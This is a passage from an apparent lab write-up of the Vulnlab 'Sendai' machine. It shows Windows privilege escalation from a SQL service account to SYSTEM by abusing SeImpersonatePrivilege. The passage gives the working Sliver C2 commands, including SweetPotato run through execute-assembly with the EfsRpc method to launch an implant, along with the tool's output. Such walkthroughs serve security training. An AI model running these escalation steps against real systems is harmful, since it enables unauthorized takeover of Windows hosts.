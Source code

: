 ![](/images/vulnlab/sendai-vl/j.png)

# PrivEsc Method #2 (cont.) - SeImpersonatePrivilege

Now that we have a session as `SQLSVC`, we'll find that they have `SeImpersonatePrivilege` enabled on their account. I've covered this before, however I'll just give a brief overview as to how it works.

```
sliver (sendai) > sa-whoami

[*] Successfully executed sa-whoami (coff-loader)
[*] Got output:
......

Privilege Name                Description                                       State                         
============================= ================================================= ===========================
SeAssignPrimaryTokenPrivilege Replace a process level token                     Disabled                      
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process                Disabled                      
SeMachineAccountPrivilege     Add workstations to domain                        Disabled                      
SeChangeNotifyPrivilege       Bypass traverse checking                          Enabled                       
SeManageVolumePrivilege       Perform volume maintenance tasks                  Enabled                       
SeImpersonatePrivilege        Impersonate a client after authentication         Enabled                       
SeCreateGlobalPrivilege       Create global objects                             Enabled                       
SeIncreaseWorkingSetPrivilege Increase a process working set                    Disabled
```

Service accounts, by default, will have this privilege along with `SeAssignPrimaryTokenPrivilege`. Having `SeImpersonatePrivilege` essentially allows our service account to impersonate a user or specified user to perform actions on behalf of that user.

We can impersonate SYSTEM and authenticate to an evil named pipe that we create. We can direct this named pipe to a binary to execute, which will run in the context of SYSTEM. If we direct this towards our implant, we should be able to receive a Sliver session as SYSTEM.

You can use any binaries within the Potato family for our exploit to force SYSTEM to authenticate to our endpoint. In the past, I've used [SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato) due to AV restrictions, however that is not the case here as AV is not enabled on this machine. I'll use [SweetPotato](https://github.com/CCob/SweetPotato) in our case, since I already have it compiled with Visual Studio on my machine.

We can execute this through Sliver's built-in .NET assembly command tools.

```
sliver (sendai) > execute-assembly SweetPotato.exe '-p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "C:\temp\sendai.exe" -e EfsRpc'

[*] Output:
SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
  EfsRpc built on EfsPotato by @zcgonvh and PetitPotam by @topotam
[+] Attempting NP impersonation using method EfsRpc to launch C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[+] Triggering name pipe access on evil PIPE \\localhost/pipe/b54f2ec8-c934-40f1-885c-2b715199b7af/\b54f2ec8-c934-40f1-885c-2b715199b7af\b54f2ec8-c934-40f1-885c-2b715199b7af
```
